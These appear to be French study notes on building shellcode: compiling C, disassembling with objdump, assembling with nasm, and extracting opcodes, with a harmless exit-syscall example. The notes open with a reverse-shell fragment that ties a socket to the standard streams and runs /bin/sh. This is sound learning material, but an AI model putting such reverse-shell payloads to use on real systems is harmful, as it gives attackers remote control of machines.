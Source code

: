 ```
	sa.sin_port = htons(REMOTE_PORT);
	s = socket(AF_INET, SOCK_STREAM, 0);
	dup2(s, 0);
	dup2(s, 1);
	dup2(s, 2);
	execve("/bin/sh", 0, 0);
	return 0;

}
```

###### 2. Compilation et désassemblage du programme high-level

- On va maintenant compiler le programme afin de le transformer en fichier binaire et de récupérer l'assembleur. Pour ça, on utilise [[Outils command line#^676e59|gcc]] ou autre compiler.
- Quand tu as le fichier binaire, tu le désassemble avec [[Outils command line#^fcb9c4|objdump]]

###### 3. Analyse du programme assembleur

- Là le but c'est de comprendre exactement comment fonctionne le programme. Ça passe donc par :
	- Trouver les emplacements de tes inputs, des variables, des paramètres.
	- Ce que contiennent les registres du genre rax, rbx...
	- Regarder comment fonctionnent les fonctions appelé, par exemple quels sont les arguments nécessaires, dans quels registres sont-ils placés...


###### 4. Nettoyage du code assembleur pour qu'il soit plus petit et injectable

- Avec l'analyse effectuée, tu repères donc les éléments importants pour la fonctionnalité que tu vas faire. Donc les trucs du genre assignation de valeurs aux registres, tu gardes. Les appels de fonction nécessaires pareil. 


###### 5. Extraction des opcodes et création du shellcode

^19a022

- On va 1) créer notre object file avec nasm, 2) lier les objets afin de créer notre fichier exécutable avec id et enfin 3) extraire le code formaté avec objdump.
	- 1)
		- `nasm -f elf64 exit_shellcode.asm`
		- où -f indique le format de l'output et le fichier asm c'est le fichier input
	- 2)
		- `ld -o exit_shellcode exit_shellcode.o`
		- où -o indique le fichier output et le fichier .o c'est l'input
	- 3)
		- `objdump -d exit_shellcode`
		- il va afficher un truc du genre 
```
exit_shellcode:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       bb 00 00 00 00          mov    $0x0,%ebx
  401005:       b8 e7 00 00 00          mov    $0xe7,%eax
  40100a:         0f 05                              syscall
```
- 
	- Ce qui va nous interesser c'est la représentation en hexa qu'on va transformer en shellcode :
```
“\xbb\x00\x00\x00\x00”
“\xb8\xe7\x00\x00\x00”
“\x0f\x05”
```